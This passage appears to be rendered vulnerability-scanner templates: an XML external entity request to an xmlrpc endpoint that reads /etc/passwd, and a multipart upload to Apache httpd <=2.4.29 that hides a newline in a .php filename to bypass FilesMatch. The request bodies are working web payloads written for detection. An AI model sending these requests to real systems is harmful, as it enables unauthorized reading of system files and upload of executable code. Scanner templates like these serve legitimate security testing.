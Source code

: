 ## Requests

### Step - 1

```
POST /webtools/control/xmlrpc HTTP/1.1
Host: {{Hostname}}
Accept: */*
Accept-Language: en
Content-Type: application/xml

<?xml version="1.0"?><!DOCTYPE x [<!ENTITY disclose SYSTEM "file://///etc/passwd">]><methodCall><methodName>&disclose;</methodName></methodCall>

```

### Matchers

**Type - regex**

- part - body
- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# Apache httpd \<=2.4.29 - Arbitrary File Upload

## Description

- Apache httpd 2.4.0 to 2.4.29 is susceptible to arbitrary file upload vulnerabilities via the expression specified in \<FilesMatch>, which could match '$' to a newline character in a malicious filename rather than matching only the end of the filename. This could be exploited in environments where uploads of some files are externally blocked, but only by matching the trailing portion of the filename.
- severity - high
- tags - apache,httpd,fileupload,vulhub,cve,cve2017,intrusive

## Requests

### Step - 1

```
POST / HTTP/1.1
Host: {{Hostname}}
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryKc8fBVDo558U4hbJ

------WebKitFormBoundaryKc8fBVDo558U4hbJ
Content-Disposition: form-data; name="file"; filename="{{randstr}}.php"

{{randstr_1}}

------WebKitFormBoundaryKc8fBVDo558U4hbJ
Content-Disposition: form-data; name="name"

{{randstr}}.php\x0A
------WebKitFormBoundaryKc8fBVDo558U4hbJ--

```